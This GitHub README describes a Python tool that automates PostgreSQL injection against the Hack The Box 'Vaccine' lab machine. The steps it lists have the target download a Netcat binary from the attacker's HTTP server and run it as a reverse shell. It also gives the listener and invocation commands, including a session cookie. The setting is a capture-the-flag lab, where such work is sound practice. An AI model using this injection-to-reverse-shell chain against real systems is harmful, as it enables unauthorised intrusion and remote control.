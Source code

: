 # PostgreSQL-Shell

## DESCRIPTION
A Python program that automates the process of error-based PostgreSQL injection RCE on the MegaCorp Car Catalogue-
Website running on of one of the Hack The Box's machine 'Vaccine' http://10.10.10.46/dashboard.php

It provides reverse shell connection to the attacker by mainly doing the followings:
1. Copies the origial Netcat file (/usr/bin/nc) to the local /tmp directory of the attacker's machine.
2. Sets up an HTTP server on the local /tmp directory.
3. Creates a new table in the database of the target server.
4. Injects a query that initiates a file transfer command to download a Netcat binary file from attacker's machine.
5. Injects a query that executes the downloaded Netcat to initiate reverse shell.

This is to be used for educational and security testing purposes only and I'm not responsible for the misuse of this program.

## ORIGINAL SOURCE
https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine

Modifier: lkim94

## CAUTION
The shell disconnects when there's a few minutes of inactivity.
Terminating this program's process while the shell is active can also cause unexpected disconnection.

## USAGE
1. `nc -lvnp <listen_port#>`

![PostgreSQL-ShellyPoC1](https://user-images.githubusercontent.com/83319068/130559443-c6f3554e-2a73-41a9-bb38-603e912230be.png)

2. `python3 PostgreSQL-Shell.py -L <attacker_ip> -l <listen_port#> -t <target_ip> -p <url_parameter> -c <cookie>`

![PostgreSQL-ShellyPoC2](https://user-images.githubusercontent.com/83319068/130559455-4b39932e-c68f-4cdf-bdfd-c178b7355f08.png)
![PostgreSQL-ShellyPoC3](https://user-images.githubusercontent.com/83319068/130559467-07d92f93-db36-43a7-8243-b8e5444b8733.png)

## EXAMPLE
`python3 PostgreSQL-Shell.py -L 10.10.14.44 -l 4444 -t 10.10.10.46 -p dashboard.php?search=car -c PHPSESSID=akebd2jzejfk47n3n3xucj4vem`

